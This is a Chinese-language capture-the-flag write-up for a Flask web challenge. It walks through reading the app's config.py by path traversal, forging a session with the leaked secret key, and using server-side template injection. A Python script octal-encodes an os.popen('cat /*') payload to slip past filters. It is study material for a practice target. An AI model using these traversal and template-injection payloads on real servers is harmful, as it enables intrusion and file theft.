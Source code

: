 ```python
                '竟然给<h1>%s</h1>你找到了我的后门，你一定是网络安全大赛冠军吧！😝 <br> 那么 现在轮到你了!<br> 最后祝您玩得愉快!😁' % name)
    except Exception:
        abort(500)


@app.errorhandler(404)
def page_not_find(e):
    return render_template('404.html'), 404


@app.errorhandler(500)
def internal_server_error(e):
    return render_template('500.html'), 500


if __name__ == '__main__':
    app.run('0.0.0.0', port=8080)
```

分析一下
 存在`./backdoor`路由，获取session中user的值，如果没有赋值为guest，有的话进行正则匹配（此处存在ssti漏洞）
 根据源码，secret_key在config.py里，我们可以访问下载得到key

获取key

```
/download?file=..././..././..././app/config.py
```

![在这里插入图片描述](assets/cfe048192e9c4087b2a3baac0c24c862.png)然后解密
 ![在这里插入图片描述](../../CTF_%25E7%25AC%2594%25E8%25AE%25B0%25E8%25AE%25B0%25E5%25BE%2597%25E8%25BD%25AC%25E7%25A7%25BB/web/%25E9%25A2%2598%25E7%259B%25AEwp+%25E6%2598%25A5%25E7%25A7%258B%25E4%25BA%2591%25E5%25A2%2583%25E6%25B8%2597%25E9%2580%258Fwp/assets/65cd2fe4918c46819cc6ab5bfc040461.png)
 由于过滤了很多，这里用八进制编码绕过
 脚本如下

```python
import re
import requests
import subprocess
# 把这个下载了，需要使用里面的flask-session-cookie-manager3.py
# # https://github.com/noraj/flask-session-cookie-manager

def string_to_octal_ascii(s):
    octal_ascii = ""
    for char in s:
        char_code = ord(char)
        octal_ascii += "\\\\" + format(char_code, '03o')
        # octal_ascii += "\\\\" + format(char_code, 'o')    
    return octal_ascii
secret_key = "y0u_n3ver_k0nw_s3cret_key_1s_newst4r"
# payload = "{%print(7*7)%}"
# payload = "{%print(\"\"\\\\u005f\\\\u005f\"\")%}"
# payload = "{%print(\"\"\\\\x5f\\\\x5f\"\")%}"

eval_shell = "\"\""+string_to_octal_ascii("__import__(\"os\").popen(\"cat /*\").read()")+"\"\""
print(eval_shell)
# docker部署&windows运行payload
```